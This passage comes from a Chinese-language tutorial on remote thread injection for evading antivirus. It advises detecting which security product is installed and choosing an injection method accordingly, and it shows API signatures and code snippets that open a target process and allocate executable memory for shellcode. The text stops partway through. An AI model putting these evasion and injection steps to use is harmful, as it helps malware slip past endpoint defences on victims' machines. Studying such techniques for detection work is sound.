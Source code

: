 ##### 5.远程线程注入

***火绒对于线程注入的操作并不敏感,但是某数字杀软晶核的环境下除了高信誉的白名单以外不要尝试进程或者线程注入**

**我们也可以通过CreateToolhelp32Snapshot去获取系统中正在运行的进程信息，线程信息然后进行判断,如果是火绒的环境就进行注入,如果是某数字杀软的环境就指针执行或者是注入自身(某数字杀软任何注入自身没有威胁)**

我们先学习一下前置知识:

使用远程线程注入，我们需要使用4个主要函数：OpenProcess, VirtualAllocEx, WriteProcessMemory，CreateRemoteThread

**思路:**
1. 打开远程进程的句柄（pid）(OpenProcess)1. 使用VirtualAllocEx在远程进程中分配具有读、写和执行必要权限的内存空间1. 然后使用WriteProcessMemory将shellcode写入到内存缓冲区中1. 最后通过调用CreateRemoteThread来创建远程线程
主要是了解一下每一个windowsAPI的功能和传入的参数

1、OpenProcess

```
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);

```

```
printf("Injecting to PID: %i", atoi(argv[1]));
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

```

2、VirtualAllocEx

```
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);

```

```
remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE)

```

3、WriteProcessMemory

```
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);

```
